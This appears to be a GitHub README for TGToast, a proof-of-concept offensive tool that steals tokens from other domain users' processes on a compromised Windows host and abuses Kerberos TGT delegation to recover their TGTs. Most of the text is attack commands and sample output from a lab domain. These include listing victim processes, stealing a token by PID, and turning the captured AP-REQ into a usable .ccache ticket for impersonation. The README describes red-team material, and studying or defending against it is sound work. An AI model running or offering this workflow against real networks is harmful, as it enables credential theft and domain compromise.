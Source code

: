 # TGToast

```
 .\TGToast.exe

      _   __           __________________                 __
     ( `^` ))         /_  __/ ____/_  __/___  ____ ______/ /_
     |     ||          / / / / __  / / / __ \/ __ `/ ___/ __/
     |     ||         / / / /_/ / / / / /_/ / /_/ (__  ) /_
     '-----'`        /_/  \____/ /_/  \____/\__,_/____/\__/


Tool to perform TGT delegation abuse, with token stealing capabilities.

Usage: C:\Users\eddard.stark\source\repos\TGToasty\x64\Release\TGToasty.exe <option> [arguments]

Options:
  /list                                 Lists processes from other domain users.
  /steal <PID> <domain> <spn> [/enctype:TYPE]   Steals token, impersonates, and runs tgtdelegation.

  Encryption types (optional): aes256 (default), aes128, rc4

  Example: C:\Users\eddard.stark\source\repos\TGToasty\x64\Release\TGToasty.exe /steal 6969 corp.local CIFS/dc01.corp.local
  Example: C:\Users\eddard.stark\source\repos\TGToasty\x64\Release\TGToasty.exe /steal 6969 corp.local CIFS/dc01.corp.local /enctype:aes256

```
## Purpose
The goal is to *impersonate* a user who is connected to a machine that is controlled by an attacker and recover their TGT. You need *elevated privileges* on the host.

First, we will steal a token from another user (for example some juicy *Domain Admins*). Then, we will use the *TGTDeleg technique*, which abuses the Kerberos GSS-API to retrieve a usable TGT for the current user. Next, *AcquireCredentialsHandle()* is used to retrieve the user's Kerberos security credentials. Then, *InitializeSecurityContext()* is called with the ISC_REQ_DELEGATE flag and a target SPN (such as HOST/DC.domain.com) to prepare a delegation context to be sent to the DC. This results in an AP-REQ in the GSS-API output containing a KRB_CRED structure in the authenticator field that includes the TGT.

## Usage
### List
```
./TGToast.exe /list

      _   __           __________________                 __
     ( `^` ))         /_  __/ ____/_  __/___  ____ ______/ /_
     |     ||          / / / / __  / / / __ \/ __ `/ ___/ __/
     |     ||         / / / /_/ / / / / /_/ / /_/ (__  ) /_
     '-----'`        /_/  \____/ /_/  \____/\__,_/____/\__/

[*] Current User: NORTH\eddard.stark
[*] Searching for processes belonging to other DOMAIN users...

PID    | User                                     | Process Name
----------------------------------------------------------------------------
2944   | NORTH\robb.stark                         | sihost.exe
596    | NORTH\robb.stark                         | svchost.exe
3080   | NORTH\robb.stark                         | taskhostw.exe
3272   | NORTH\robb.stark                         | ctfmon.exe
3524   | NORTH\robb.stark                         | explorer.exe
3760   | NORTH\robb.stark                         | ShellExperienceHost.exe
3840   | NORTH\robb.stark                         | SearchUI.exe
3956   | NORTH\robb.stark                         | RuntimeBroker.exe
4068   | NORTH\robb.stark                         | RuntimeBroker.exe
3120   | NORTH\robb.stark                         | RuntimeBroker.exe
968    | NORTH\robb.stark                         | smartscreen.exe
4860   | NORTH\robb.stark                         | mstsc.exe
```

### TGToasting
```
./TGToast.exe /steal 3524 north.sevenkingdoms.local CIFS/winterfell.north.sevenkingdoms.local

      _   __           __________________                 __
     ( `^` ))         /_  __/ ____/_  __/___  ____ ______/ /_
     |     ||          / / / / __  / / / __ \/ __ `/ ___/ __/
     |     ||         / / / /_/ / / / / /_/ / /_/ (__  ) /_
     '-----'`        /_/  \____/ /_/  \____/\__,_/____/\__/

[+] SeDebugPrivilege enabled.
[*] Attempting to steal token from PID 3524...
[+] Successfully stole token from user: NORTH\robb.stark
[*] Successfully impersonating user. Now attempting TGT delegation abuse...
----------------------------------------------------------------------------
[+] Target Domain (for reference): north.sevenkingdoms.local
[+] Target SPN: CIFS/winterfell.north.sevenkingdoms.local
[+] Successfully obtained a handle to the current credentials set!
[+] Successfully initialized the Kerberos GSS-API!
[+] The delegation request was successful! AP-REQ ticket is now in the GSS-API output.
[+] Successfully invoked LsaCallAuthenticationPackage! The Kerberos session key should be cached!

[+] AP-REQ output:
YI...(snip)...91pPYw==

[+] Kerberos session key:
Ab1lnjT...(snip)...pEcFY=

[+] Encryption:
AES256

[+] tgtdelegation succeeded under impersonated context!
----------------------------------------------------------------------------
[*] TGT delegation attempt finished. Reverting to original identity.
```

## Extract TGT
You can use TGTParse.py code to extract the TGT from the AP-REQ using the session key.
The TGTParse.py code was a refactor of the version available on Github : [https://github.com/connormcgarr/tgtdelegation/tree/master/tgtParse](https://github.com/connormcgarr/tgtdelegation/tree/master/tgtParse) by Connor McGarr (@33y0re).
```
.python TGTParse.py  --sessionkey W0612fo...(snip)...43JYdqc= --apreq YIINBwYJKoZIh...(snip)...vcSAQICAysc3 --etype AES256

[+] Identified ticket for robb.stark@NORTH.SEVENKINGDOMS.LOCAL
[+] Successfully extracted the TGT! Saved as: robb.stark@NORTH.SEVENKINGDOMS.LOCAL.ccache!
[*] Local path to usable .ccache: /home/wuentin/Desktop/TGToast/robb.stark@NORTH.SEVENKINGDOMS.LOCAL.ccache
[*] Usage: export KRB5CCNAME=/home/wuentin/Desktop/TGToast/robb.stark@NORTH.SEVENKINGDOMS.LOCAL.ccache

```

### Usage
```
# Create virtual environment
python3 -m venv tgtparse-env

# Activate virtual environment
source tgtparse-env/bin/activate 

# Install dependencies
pip install impacket pyasn1

# Run the tool
python3 tgtParse.py --apreq <BASE64_APREQ> --sessionkey <BASE64_KEY> --etype <AES256|AES128|RC4>
```
## Limits
There are a few limitations, it doesn't work if the target accounts are:
- member of protected users;
- account is sensitive and cannot be delegated.

## ToDo
- Code rework, the current code is a poc, not the definitive code.

## Credits
Many thanks to these projects, all I did was put the ideas together.
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [https://github.com/GhostPack/Rubeus/blob/master/Rubeus/lib/LSA.cs](https://github.com/GhostPack/Rubeus/blob/master/Rubeus/lib/LSA.cs)
- [https://github.com/connormcgarr/tgtdelegation/tree/master](https://github.com/connormcgarr/tgtdelegation/tree/master)

